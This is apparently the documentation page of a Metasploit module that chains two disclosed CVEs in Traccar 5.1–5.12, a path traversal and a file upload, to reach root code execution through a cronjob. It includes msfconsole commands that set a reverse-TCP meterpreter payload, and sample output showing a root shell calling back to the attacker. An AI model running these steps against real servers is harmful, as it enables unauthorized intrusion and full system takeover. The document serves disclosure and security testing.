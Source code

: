 ## Vulnerable Application

This module exploits two vulnerabilities in Traccar v5.1 - v5.12 to obtain remote code execution: A path traversal vulnerability
(CVE-2024-24809) and an unrestricted file upload vulnerability (CVE-2024-31214). By default, the application allows self-registration,
enabling any user to register an account and exploit the issues. Moreover, the application runs by default with root privileges,
potentially resulting in a complete system compromise.
This module, which should work on any Red Hat-based Linux system, exploits these issues by adding a new cronjob file that executes the
specified payload.

## Testing

The software can be obtained from
[the vendor](https://github.com/traccar/traccar/releases/download/v5.12/traccar-linux-64-5.12.zip).

Installation instructions are available [here](https://www.traccar.org/linux/).

The vulnerable application runs by default on Eclipse Jetty, which listens on TCP port 8082.

**Successfully tested on**

- Traccar v5.12 on Rocky Linux 9.4
- Traccar v5.11 on Rocky Linux 9.4

## Verification Steps

1. Install and run the application
2. Start `msfconsole` and run the following commands:

```
msf > use exploit/linux/http/traccar_rce_upload  
[*] Using configured payload cmd/linux/http/x64/meterpreter/reverse_tcp
msf exploit(linux/http/traccar_rce_upload) > set RHOSTS <IP>
msf exploit(linux/http/traccar_rce_upload) > set LHOST <IP>
msf exploit(linux/http/traccar_rce_upload) > exploit
```

You should get a meterpreter session in the context of `root`.

## Options

### USERNAME
Username to be used when creating a new user.

### PASSWORD
Password for the new user.

### EMAIL
E-mail for the new user.

## Scenarios

Running the exploit against Traccar v5.12 on Rocky Linux 9.4, using curl as a fetch command, should result in an output similar
to the following:

```
msf exploit(linux/http/traccar_rce_upload) > exploit 

[*] Started reverse TCP handler on 192.168.217.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Registering new user...
[*] Authenticating...
[*] Adding new device...
[*] Uploading crontab file...
[*] Cronjob successfully written - waiting for execution...
[*] Sending stage (3045380 bytes) to 192.168.217.138
[*] Meterpreter session 1 opened (192.168.217.128:4444 -> 192.168.217.138:58196) at 2024-08-25 17:03:02 -0400
[*] Exploit finished, check thy shell.

meterpreter > sysinfo 
Computer     : localhost.localdomain
OS           : Red Hat 9.4 (Linux 5.14.0-427.13.1.el9_4.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux

meterpreter > getuid 
Server username: root
```
